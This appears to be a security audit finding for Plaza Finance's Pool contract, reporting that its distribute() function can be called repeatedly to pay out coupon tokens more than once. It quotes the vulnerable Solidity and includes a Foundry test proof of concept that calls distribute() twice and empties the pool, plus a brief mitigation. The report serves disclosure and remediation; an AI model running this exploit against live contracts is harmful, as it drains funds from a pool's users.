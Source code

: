 Puny Licorice Manatee

High

# Coupon distribution for bondholders can be called multiple times, resulting in more tokens being distributed than originally intended.

### Summary

Pool's coupon tokens can be distributed using a bidding system by creating an auction. After the auction ends, coupon tokens can be distributed according to each bidder's position. To do so, anyone can call the distribute function in the Pool contract. However, the problem lies in the lack of validation to ensure that the distribution has not already been called. This allows for double-spending if the pool still has additional funds, resulting in more funds being distributed to bondholders than what was intended after the auction.

### Root Cause

We can see implementation of `distribute` function in [Pool contract](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L589-L614):

```solidity
 function distribute() external whenNotPaused {
    (uint256 currentPeriod,) = bondToken.globalPool();
    require(currentPeriod > 0, AccessDenied());

    // Period is increased when auction starts, we want to distribute for the previous period
    uint256 previousPeriod = currentPeriod - 1;
    uint256 couponAmountToDistribute = Auction(auctions[previousPeriod]).totalBuyCouponAmount();

    if (Auction(auctions[previousPeriod]).state() == Auction.State.FAILED_POOL_SALE_LIMIT ||
        Auction(auctions[previousPeriod]).state() == Auction.State.FAILED_UNDERSOLD) {

      emit DistributionRollOver(previousPeriod, couponAmountToDistribute);
      return;
    }

    // Get Distributor
    address distributor = poolFactory.distributors(address(this));

    // Transfer coupon tokens to the distributor
    IERC20(couponToken).safeTransfer(distributor, couponAmountToDistribute);

    // Update distributor with the amount to distribute
    Distributor(distributor).allocate(couponAmountToDistribute);

    emit Distributed(previousPeriod, couponAmountToDistribute, distributor);
  }
```

### Internal Pre-conditions

1. More than one auction has concluded.
2. The pool has more funds than need to be distributed.

### External Pre-conditions

None

### Attack Path

1. Call `distribute` function inside Pool contract several times

### Impact

Pool funds could be misallocated, giving previous auction bidders more than intended.

### PoC

Insert into Distributor.t.sol:

```solidity
function testBugClaimShares() public {
        Token sharesToken = Token(_pool.couponToken());

        vm.startPrank(address(_pool));
        _pool.bondToken().mint(user, 1 * 10 ** 18);
        sharesToken.mint(address(_pool), 50 * (1 + 10000) * 10 ** 18);
        vm.stopPrank();

        vm.startPrank(governance);
        fakeSucceededAuction(address(_pool), 0);

        vm.mockCall(
            address(0),
            abi.encodeWithSignature("state()"),
            abi.encode(uint256(1))
        );

        vm.mockCall(
            address(0),
            abi.encodeWithSignature("totalBuyCouponAmount()"),
            abi.encode(uint256(50 * (1 + 10000) * 10 ** 18))
        );

        // increase indexed asset period - this is done by Pool when Auction starts but its mocked on this test
        _pool.bondToken().increaseIndexedAssetPeriod(params.sharesPerToken);
        vm.stopPrank();

        vm.startPrank(address(_pool));
        sharesToken.mint(address(_pool), 50 * (1 + 10000) * 10 ** 18);
        vm.stopPrank();
        console.log(sharesToken.balanceOf(address(_pool)));
        _pool.distribute();
        console.log(sharesToken.balanceOf(address(_pool)));
        _pool.distribute();
        console.log(sharesToken.balanceOf(address(_pool)));
    }
```

Output:

Logs:
  1000100000000000000000000
  500050000000000000000000
  0

### Mitigation

Ensure that funds can be distributed only once after auction.